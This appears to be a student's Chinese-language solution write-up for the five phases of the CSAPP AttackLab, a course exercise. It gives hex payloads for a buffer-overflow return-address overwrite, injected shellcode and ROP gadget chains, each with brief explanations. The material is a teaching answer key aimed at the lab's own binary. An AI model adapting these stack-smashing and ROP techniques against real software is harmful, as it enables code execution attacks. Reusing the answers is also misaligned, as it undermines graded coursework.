

# CSAPP Learning
---

*This document is specially for AttackLab of book CSAPP.*

## **Phase1**
最简单情况，往里面填充40字节的垃圾信息，再把touch1的返回地址注入就可以了。

**Solution:**
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
/*40字节的填充信息*/
c0 17 40
/*真正的返回地址*/
```

## **Phase2**
要求我们还得注入一个标识自己的Cookie。  

由于程序执行并不严格区分**数据区和指令区**，两者都是地址表示的，我们把自己写的汇编指令**注入**到存数据的栈帧当中，并让return地址能跳转过去就可以了。  

**执行逻辑：**

getbuf -> 自己写的指令 -> touch2

**Solution:**
```
48 83 ec 08           /* sub $0x8, %rsp */
48 c7 c7 fa 97 b9 59  /* mov    $0x59b997fa,%rdi */
c7 04 24 ec 17 40 00  /* movl   $0x4017ec,(%rsp) */
c3                    /* ret */
/*自己手写的注入指令*/
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 
/*其余的填充信息*/
78 dc 61 55
/*让getbuf执行完跳到我们上面自己写的部分去*/
```
* 严谨性的小问题：由于原程序跳回的是一个6位数的地址，高位默认置0，所以我们这里的返回地址并没有给高位用0覆盖。  

此外注意一个细节：  
* `ret` 指令实际集成了
  * `mov (%rsp), %rip`
  * `%rsp += 0x8`

也就是**把栈顶元素弹出赋值给%rip**的过程，**%rsp的低位置会完全作废。**

这个细节会影响到Phase3，以及 `sub $0x8, %rsp` 如果phase2也不写这句的话，会出现既成功又报错的诡异场景

## **Phase3**
我们要把Cookie写成一个**8字节的字符串**存起来，并且要求我们返回这个字符串的**指针**。

* **存在哪里？**

要保存在%rsp的更高位置。不然会被之后一轮轮的新的栈帧潮水一般**冲刷覆盖**，全部坏掉。

* **为什么可以存在高地址？**  

因为更高地址是**调用getbuf**的test函数的栈帧，那个地方变成什么样我们才不关心呢（傲娇脸）

此外注意我们还得给这个字符串的上面字节置0，因为C的字符串以00标识尾部，`char* p` 以读到00作为结束。

**Solution:**

```
48 83 ec 08                  /* sub $0x8, %rsp */
48 c7 c7 a8 dc 61 55         /* mov $0x5561dca8, %rdi */
48 c7 04 24 fa 18 40         /* mov $0x4018fa, (%rsp) */
00                           /* Nothing */
c3                           /* ret */
/*注入指令*/
00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
/*其余的填充信息*/
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61 
00 00 00 00 00 00 00 00 
```

这里写 `sub $0x8, %rsp` 的目的就很明确了，不然的话%rsp指针上移8位会直接指到我们存Cookie的那个位置去，而碰巧我们又做了一个**覆盖操作**，会导致直接炸掉。

更优解法是，直接用 `pushq` 指令集成一下。

## Phase4
我们要干和phase2一样的活，但是区别在**栈地址随机化**和**栈区不可执行**的保护措施下，我们没办法手写注入我们的指令进行攻击了。  

**怎么办？** 拼凑原程序的指令零件。  
机器读指令是一个一个字节读的，我们要做的就是**断章取义**。  

> 「断章取义」  
> *——出自「不要断章取义」*

大概就是这么个意思

截取有用的片段，忽略 `test` `nop` 这种无关痛痒的垃圾信息，让程序直接跳到我们希望它开始的位置开始就可以了

注意这个魔法：`popq` 

发动它可以让%rsp一下跳16个字节，并且把栈里面的数据注入给%rax

**Solution:**
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
/*依旧是40字节的垃圾信息*/
ab 19 40 00 00 00 00 00 /* popq %rax */
fa 97 b9 59 00 00 00 00 /* 我们的cookie */
c5 19 40 00 00 00 00 00 /* mov %rax, %rdi */ 
ec 17 40 00 00 00 00 00 
/*返回地址*/
```

## Phase5

和Phase3做一样的事情，区别就是Phase4和Phase2一样的

**图解**



**Solution**
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
06 1a 40 00 00 00 00 00 
c5 19 40 00 00 00 00 00 
ab 19 40 00 00 00 00 00 
50 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
34 1a 40 00 00 00 00 00 
27 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
c5 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
00 00 00 00 00 00 00 00 
35 39 62 39 39 37 66 61 
00 00 00 00 00 00 00 00 
```
*其实这里的touch3上面是没有空行必要的*

这里要注意到它很仁慈地给了 `add_xy()` 方法，我们可以巧妙地构造让它加一个偏差值0x50上去，得到我们想要的结果

**遇到的问题：**  
* `add_xy()` 的传参一开始忘记处理了，一定要记得扔给 %edi 和 %esi
* 64位赋值不要写错地址成32位赋值，不然高位被置0很难受的说

---

***By Tab_1bit0***